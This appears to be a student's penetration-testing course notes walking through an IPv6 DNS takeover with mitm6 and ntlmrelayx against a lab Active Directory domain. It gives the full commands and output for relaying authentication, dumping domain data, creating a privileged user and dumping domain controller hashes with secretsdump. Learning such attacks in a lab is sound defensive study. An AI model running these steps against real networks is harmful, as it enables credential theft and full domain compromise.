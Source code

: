 # IX. IPv6 Attack (DNS Takeover via mitm6).

First, make sure `mitm6` is installed on the Kali machine machine. If not, this [repo](https://github.com/dirkjanm/mitm6) contains the necessary  steps to do so. 

Next open two tabs on the terminal. In the first tab, type the following command, `sudo mitm6 -d <DOMAIN NAME>`. Do not run it just yet.

In the second tab, setup `ntlmrelayx` with `impacket-ntlmrelayx -6 -t ldaps<DOMAIN CONTROLLER IP> -wh fakewpad.DOMAIN NAME -l TheLoot`. 

```bash
┌──(kali㉿kali)-[~]
└─$ sudo impacket-ntlmrelayx -6 -t ldaps://10.0.2.8 -wh fakewapd.ONEPIECE.local -l TheLoot
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Protocol Client IMAPS loaded..
[*] Protocol Client IMAP loaded..
[*] Protocol Client RPC loaded..
[*] Protocol Client SMB loaded..
[*] Protocol Client SMTP loaded..
[*] Protocol Client HTTP loaded..
[*] Protocol Client HTTPS loaded..
[*] Protocol Client DCSYNC loaded..
[*] Protocol Client LDAP loaded..
[*] Protocol Client LDAPS loaded..
[*] Protocol Client MSSQL loaded..
[*] Running in relay mode to single host
[*] Setting up SMB Server
[*] Setting up HTTP Server on port 80
[*] Setting up WCF Server
[*] Setting up RAW Server on port 6666

[*] Servers started, waiting for connections

```

Hit `ENTER`. 

Once it’s running, go back to the first tab and run `mitm6`

```bash
──(kali㉿kali)-[~]
└─$ sudo mitm6 -d ONEPIECE.local
[sudo] password for kali: 
Starting mitm6 using the following configuration:
Primary adapter: eth0 [08:00:27:22:46:4f]
IPv4 address: 10.0.2.4
IPv6 address: fe80::8c0:237:c947:808
DNS local search domain: ONEPIECE.local
DNS allowlist: onepiece.local
IPv6 address fe80::2115:1 is now assigned to mac=08:00:27:87:4e:2a host=STRAWHATS-PC.ONEPIECE.local. ipv4=
IPv6 address fe80::2115:2 is now assigned to mac=08:00:27:00:29:f5 host=FRANKY.ONEPIECE.local. ipv4
```

So, what’s happening here is whenever an event (reboot, logging in etc) occurs on the network, this will allow an attacker to take that event and relay it via `ntlmrelayx` and then to the domain controller. 

Now make sure all windows machines (User and Domain Controller) are on. Restart a user machine and go back to the Kali terminal.

NOTE: `mitm6` should only be used in short bursts when carrying out this attack or it might lead to authentication issues and network outages.

Eventually, a bunch of stuff will start succeeding. This is a good sign. 

```bash
[*] HTTPD(80): Client requested path: /wpad.dat
[*] HTTPD(80): Client requested path: /wpad.dat
[*] HTTPD(80): Serving PAC file to client ::ffff:10.0.2.11
[*] HTTPD(80): Connection from ::ffff:10.0.2.11 controlled, attacking target ldaps://10.0.2.8
[*] HTTPD(80): Authenticating against ldaps://10.0.2.8 as ONEPIECE/FRANKY$ SUCCEED
[*] Enumerating relayed user's privileges. This may take a while on large domains
[*] Dumping domain info for first time
[*] Domain info dumped into lootdir!
```

Checking the base folder and a `TheLoot` folder should appear. This folder contains all kinds of information such as all computers in the domain, users, groups etc.

![Loot](https://github.com/w1zzl3-06/TCM-Practical-Ethical-Hacking-Notes/assets/141921425/dba6f9f0-cca0-434a-908b-d9e9525b6321)

Next , login into the domain controller account on a windows user machine.

Go back to the `ntlmrelayx` tab:

![mitm6_new_user](https://github.com/w1zzl3-06/TCM-Practical-Ethical-Hacking-Notes/assets/141921425/123b071b-d4d1-4412-831f-f0b2b48ca2b5)

The tool has created a new user which can be used to access the domain controller account with elevated privileges. Pretty cool.

We can verify this by logging into our domain controller and checking the `Users` folder in `Active Directory Users and Computers`.

![mitm6_new_user_1](https://github.com/w1zzl3-06/TCM-Practical-Ethical-Hacking-Notes/assets/141921425/211ea1fa-526b-4657-9756-06f908b2212e)

Finally, we can run `secretsdump.py` to completely dump all the secrets of the Domain Controller, get the hashes and completely compromise it. This is pretty much game over.
